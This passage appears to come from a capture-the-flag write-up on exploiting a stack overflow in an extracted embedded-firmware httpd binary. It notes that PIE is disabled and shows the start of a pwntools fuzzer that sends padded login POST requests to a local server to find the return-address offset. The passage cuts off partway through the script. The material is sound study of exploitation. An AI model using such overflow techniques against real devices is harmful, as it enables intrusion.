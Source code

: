 ![](image-23.png)

### Exploitation
Now, that we could crash the binary, writing the exploit should be straight forward.

Luckily, a lot of binaries used in embedded systems have most security mitigation disabled, we can confirm this by running checksec on the binary that we have.
![](image-24.png)

And as we expected, we can see PIE is disabled, so this means that there will be no randomization of code addresses.

Now, we already know what function we want to execute, namely, the `readFlag` function, but we have one problem, we still don't know the offset for the return address stored on the stack, so we don't know how much should we overflow before corrupting the saved return address.

Now, I could've went ahead and calculated it like an educated person, but I just wrote a fuzzer that will find me the offset. (this reminds me of this [XKCD](https://xkcd.com/1319/))

here's the code for my fuzzer:
```python
from pwn import *

elf = ELF("./_new_fw.bin.extracted/jffs2-root/bin/httpd")
context.binary = elf.path

def login(offset, content_length=200):
    with remote("localhost", 10080) as io:
        header = (
            "POST /login HTTP/1.1\r\n"
            "Host: localhost:10080\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Content-Length: {content_length}\r\n\r\n"
        )

        body = (
            "user=admin&pass=notcomplexjustnotguessable\0" +
            "A" * offset +
```